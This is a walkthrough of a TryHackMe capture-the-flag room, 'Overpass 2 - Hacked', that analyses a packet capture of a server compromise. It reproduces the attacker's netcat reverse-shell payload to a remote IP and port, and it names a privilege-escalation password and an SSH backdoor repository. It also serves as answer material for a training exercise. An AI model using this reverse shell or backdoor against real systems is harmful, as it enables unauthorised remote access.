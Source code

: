 # [Overpass 2 - Hacked](https://tryhackme.com/r/room/overpass2hacked)

![Overpass2-Hacked](./images/Overpass2-Hacked.png)

## Task 1 - Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing Linux Fundamentals as a bare minimum.

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

### Answer the questions below

* What was the URL of the page they used to upload a reverse shell?

	`/development/`

	![task1-development](./images/task1-development.png)

* What payload did the attacker use to gain access?

	`exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`

	![task1-payload](./images/task1-payload.png)

* What password did the attacker use to privesc?
	
	`whenevernoteartinstant`

	![task1-password](./images/task1-password.png)

* How did the attacker establish persistence?

	`https://github.com/NinjaJc01/ssh-backdoor`

	![task1-backdoor](./images/task1-backdoor.png)

* Using the fasttrack wordlist, how many of the system passwords were crackable?

	`4`

	![task1-shadow](./images/task1-shadow.png)

	![task1-john](./images/task1-john.png)

## Task 2 - Research - Analyse the code

Now that you've found the code for the backdoor, it's time to analyse it.

### Answer the questions below

* What's the default hash for the backdoor?

* What's the hardcoded salt for the backdoor?

* What was the hash that the attacker used? - go back to the PCAP for this!

* Crack the hash using rockyou and a cracking tool of your choice. What's the password?

## Task 3 - Attack - Get back in!

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

### Answer the questions below

* The attacker defaced the website. What message did they leave as a heading?

* Using the information you've found previously, hack your way back in!

* What's the user flag?

* What's the root flag?
